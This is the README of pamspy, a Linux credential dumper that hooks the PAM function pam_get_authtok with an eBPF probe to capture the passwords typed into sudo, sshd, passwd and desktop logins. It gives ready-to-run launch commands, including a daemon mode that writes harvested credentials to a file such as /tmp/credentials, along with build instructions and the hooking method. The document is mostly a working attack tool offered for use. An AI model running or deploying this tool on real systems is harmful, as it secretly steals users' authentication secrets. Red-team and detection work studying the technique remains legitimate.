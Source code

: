 # pamspy -- Credentials Dumper for Linux

`pamspy` leverage eBPF technologies to achieve an equivalent work of [3snake](https://github.com/blendin/3snake).

It will track a particular userland function inside the PAM (Pluggable Authentication Modules) library, used by many critical applications to handle authentication like:
* sudo
* sshd
* passwd
* gnome
* x11
* and many other ...

![Demo](.img/pamspy.gif)

## How to launch?

`pamspy` is built as a static binary without any dependencies, and available on the [release]() page.

```
Usage: pamspy [OPTION...]
pamspy

Uses eBPF to dump secrets use by PAM (Authentication) module
By hooking the pam_get_authtok function in libpam.so

USAGE: ./pamspy -p $(/usr/sbin/ldconfig -p | grep libpam.so | cut -d ' ' -f4) -d /var/log/trace.0

  -d, --daemon=PATH TO OUTPUT CREDENTIALS
                             Start pamspy in daemon mode and output in the file
                             passed as argument
  -p, --path=PATH            Path to the libpam.so file
  -r, --print-headers        Print headers of the program
  -v, --verbose              Verbose mode
  -?, --help                 Give this help list
      --usage                Give a short usage message
  -V, --version              Print program version

Mandatory or optional arguments to long options are also mandatory or optional
for any corresponding short options.

Report bugs to .

```

As `pamspy` rely on libpam, we have to set the path where libpam is installed on your distribution. To find where libpam is installed you can run the following command :

```
> /usr/sbin/ldconfig -p | grep libpam.so | cut -d ' ' -f4
/lib/x86_64-linux-gnu/libpam.so.0
```

Once you get the path you can launch `pamspy` :

```
> ./pamspy -p /lib/x86_64-linux-gnu/libpam.so.0
```

An easy way to launch `pamspy` is to use the following command :

```
> ./pamspy -p $(/usr/sbin/ldconfig -p | grep libpam.so | cut -d ' ' -f4)
```

`pamspy` can also be started as a daemon by providing an output file where credentials will be written:

```
./pamspy -p $(/usr/sbin/ldconfig -p | grep libpam.so | cut -d ' ' -f4) -d /tmp/credentials
```

## How to build?

To build the static binary, we need third-party program. For eBPF we need `clang` to compile the C code into eBPF CO-RE code.
We also rely on `bpftool` to create a skeleton from ebpf program to include it in our userland program. Then we need also `libelf` to find the correct symbol in libpam.

```
sudo apt install make clang-11 gcc libelf-dev bpftool
```

Then just build!

```
git clone https://github.com/citronneur/pamspy --recursive
cd pamspy/src
make
```

## How does It works?

`pamspy` will load a userland return probe eBPF program to hook the `pam_get_authtok` function from `libpam.so`. 
PAM stands for "Pluggable Authentication Modules", and have a flexible design to manage a different kind of authentication on Linux.

Each time an authentication process tries to check a new user, It will call `pam_get_authtok`, and will be here to dump the content of the critical secrets!

Easy! Enjoy!

## Credits and references

Thanks to @blendin for 3snake tool !!!

